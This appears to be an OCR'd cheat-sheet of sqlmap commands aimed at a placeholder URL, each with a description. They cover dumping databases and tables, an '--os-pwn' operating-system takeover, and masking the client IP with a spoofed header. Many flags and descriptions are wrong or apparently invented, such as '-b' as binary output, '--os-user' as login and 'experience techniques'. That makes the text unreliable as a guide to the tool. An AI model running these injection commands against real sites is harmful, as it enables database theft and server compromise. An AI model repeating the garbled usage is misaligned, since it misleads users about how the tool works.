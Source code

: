 <br><br>
Connect to a website where the URL points to a vulnerable web application which is backed by a MySQL server. It then retrieves the database names from the 'user' and 'pass' parameters given in the command.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --data="user=foo;pass=bar" --dbs 

---
<br><br>
Retrieve the tables present in the database specified in the URL given in the command, and then to dump the content of all the tables into the 'test' output file.

    sqlmap -u http://www.example.com/db.php?id=1 --tables -o test --dump

---
<br><br>
Crawl 2 levels of the website specified in the URL given in the command, looking for the parameter 'wp-api-token', and then retrieve the content of the 'users' table.

    sqlmap -u http://www.example.com/db.php?id=1 --crawl=2 --randomize-string='?wp-api-token' --table 'users'

---
<br><br>
Login with the 'martin' username, retrieve the content of the database specified in the URL given in the command and then to dump the content of all the tables into binary files.

    sqlmap -u http://www.example.com/db.php?id=1 --os-user='martin' --dump -b 

---
<br><br>
Analyze the html forms present in the website identified by the specified URL and then to follow redirects for 3 levels, using the experience techniques for exploiting each form.   
    
    sqlmap -u http://www.example.com/db.php?id=1 --forms --follow-redirect --level=3 --technique=E  

---
<br><br>
Perform an Operating System takeover, allowing it to read and write files on the remote system.

    sqlmap -u http://www.example.com/db.php?id=1 --os-pwn 

---
<br><br>
Retrieve the database schema of the database specified in the URL given in the command, using the X-Forwarded-For header to mask the client's IP.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --schema --header="X-Forwarded-For: 192.168.0.1" 

---
<br><br>
Query the database specified in the URL given in the command, executing the given SELECT statement, and then dumping the result of the query into a file.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --query "SELECT user FROM table WHERE id=1" --dump 

---